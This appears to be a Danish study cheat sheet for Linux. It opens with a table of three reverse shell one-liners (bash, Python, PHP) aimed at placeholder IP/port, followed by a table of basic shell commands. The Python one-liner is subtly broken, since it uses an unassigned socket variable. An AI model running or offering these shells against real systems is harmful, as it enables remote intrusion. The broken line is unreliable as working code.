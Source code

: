 

EKSTRA FRA CHATGPT:
| Reverse Shell Eksempler | Beskrivelse |
|-------------------------|-------------|
| `bash -i >& /dev/tcp/<ip>/<port> 0>&1` | Enkel bash reverse shell |
| `python3 -c 'import socket,subprocess,os;socket.socket(socket.AF_INET,socket.SOCK_STREAM).connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` | Python reverse shell (lang version) |
| `php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&1");'` | PHP reverse shell |



| Kommando              | Beskrivelse                             | Nyttige flags                         |
|-----------------------|-----------------------------------------|---------------------------------------|
| `ls`                  | Lister filer og mapper                   | `-l`: detaljeret visning<br>`-a`: vis skjulte filer |
| `pwd`                 | Viser nuværende mappe                    | Ingen flags nødvendige                |
| `cd <mappe>`          | Skifter mappe                            | Brug `..` for mappe op                |
| `cat <fil>`           | Viser indhold af en fil                  | Ingen flags nødvendige                |
| `nano <fil>`          | Enkel teksteditor til at redigere filer  | Ingen flags nødvendige                |
| `touch <fil>`         | Opretter tom fil                         | Ingen flags nødvendige                |
| `mkdir <mappe>`       | Opretter en ny mappe                     | `-p`: opretter mellemmapper           |
| `rm <fil>`            | Sletter fil                              | `-r`: rekursivt (mapper)<br>`-f`: tvinger sletning |
| `cp <fra> <til>`      | Kopierer filer og mapper                 | `-r`: kopierer mapper                 |
| `mv <fra> <til>`      | Flytter eller omdøber filer/mapper       | Ingen flags nødvendige                |
| `grep <søgetekst> <fil>` | Søger efter tekst i fil(er)           | `-i`: ignorer store/små bogstaver<br>`-r`: rekursiv søgning |
| `chmod <rettigheder> <fil>` | Ændrer filrettigheder              | Eksempel: `chmod +x fil.sh` (gør fil eksekverbar) |
| `chown <bruger>:<gruppe> <fil>` | Ændrer ejer og gruppe af fil   | Eksempel: `chown root:root fil.txt`   |
| `ps aux`              | Viser aktive processer                   | Ingen flags nødvendige                |
| `kill <PID>`          | Dræber en proces (efter ID)              | Eksempel: `kill 1234`                 |
| `whoami`              | Viser nuværende brugernavn               | Ingen flags nødvendige                |
| `ifconfig` eller `ip a`| Viser netværksinformation               | Ingen flags nødvendige                |
| `wget <url>`          | Downloader fil fra URL                   | `-O`: gem fil med bestemt navn        |
| `curl <url>`          | Henter data eller filer fra URL          | `-o`: gem data til en fil             |
| `scp <fil> bruger@host:/sti` | Kopierer filer over SSH           | Eksempel: `scp data.txt user@192.168.1.10:/tmp/` |

